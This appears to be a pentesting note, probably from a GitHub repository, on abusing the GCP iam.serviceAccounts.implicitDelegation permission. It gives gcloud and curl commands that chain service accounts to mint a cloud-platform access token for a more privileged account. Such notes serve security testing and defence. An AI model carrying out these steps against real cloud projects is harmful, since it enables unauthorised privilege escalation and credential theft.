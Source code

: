 # iam.serviceAccounts.implicitDelegation IAM Permission abuse

## Description

### Implicit delegation allows one user or service account to perform actions on behalf of another user or service account without needing explicit consent for each action. This capability is often used in scenarios where an application needs access to GCP resources on behalf another identity. Such resources could by anything, from Cloud Storage buckets to Compute Engine instances (VMs).

## Use case scenario:

### SV1 can use the SV2 account that is assigned a role and has iam.serviceAccounts.implicitDelegation permission enabled and SV3 account is assigned the iam.serviceAccounts.getAccessToken Permission.

## Steps

 - gcloud iam service-accounts get-iam-policy ACCOUNT_NAME@PROJECT_NAME.iam.gserviceaccount.com (Let's suppose that we find the accounts with the above permissions in our use case scenario)

 - gcloud auth print-access-token (Prints our current user Access Token. In our use case scenario, the account is SV1)

### Here we use the implicit delegation privilege between the sv1 and sv2 service accounts to then generate an access token for the sv3 service account. In the command below we authenticate using the srv1 token, specify srv2 as a delegate, and send the request to the API endpoint to generate an API token for srv3.

 - curl -X POST \
  "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/SV3@gr-proj-1.iam.gserviceaccount.com:generateAccessToken?access_token=ACCESS_TOKEN_OF_SV1_ACCOUNT" \
  -H "Content-Type: application/json" \
  --data '{
    "delegates": ["projects/-/serviceAccounts/'"SV2@PROJECT_NAME.iam.gserviceaccount.com"'"],
    "scope": ["https://www.googleapis.com/auth/cloud-platform"]
  }'

 - curl https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=SRV3_ACCESS_TOKEN (Verify that our requested Access Token is valid)
